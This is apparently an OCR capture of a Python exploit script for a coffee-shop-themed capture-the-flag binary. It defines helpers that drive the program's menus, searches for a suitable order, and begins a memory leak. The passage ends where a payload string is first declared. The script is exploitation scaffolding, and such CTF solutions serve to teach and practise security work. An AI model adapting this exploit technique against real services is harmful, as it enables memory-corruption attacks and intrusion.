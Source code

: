 ```python
    p.readuntil("> ")
    if c == "espresso":
        p.sendline("1")
    if c == "hand drip":
        p.sendline("2")
    if c == "french spresso":
        p.sendline("3")
    p.readuntil("done!\n")

def add(idx,ing):
    p.sendline("2")
    p.readuntil("> ")
    p.sendline("2")
    p.readuntil("which coffee? ")
    p.sendline(str(idx))
    p.readuntil("add? ")
    p.send(ing)
    p.readuntil("> ")

def mix(idx,name):
    p.sendline("2")
    p.readuntil("> ")
    p.sendline("3")
    p.readuntil("which coffee? ")
    p.sendline(str(idx))
    p.readuntil("coffee? ")
    p.send(name)
    p.readuntil("> ")

def view():
    ret = []
    p.sendline("3")
    tmp = p.readuntil("> ")
    tmp = tmp.split("\n")
    t = []
    for i in range(5,5+9):
        t = []
        for j in tmp[i].split("|"):
            t.append(j.strip())
        ret.append(t)
    return ret

def delete():
    p.sendline("4")
    p.readuntil("> ")

log.info("start exploit")
while True:
    log.info("searching for nice customer...")
    order = pinit()
    if order:
        log.info("found")
        break

p = order['p']

log.info("leak some memory...")
brew(order['base'])
add(0,order['mix'])
mix(0,order['name'])
sell(0)

payload = ''
```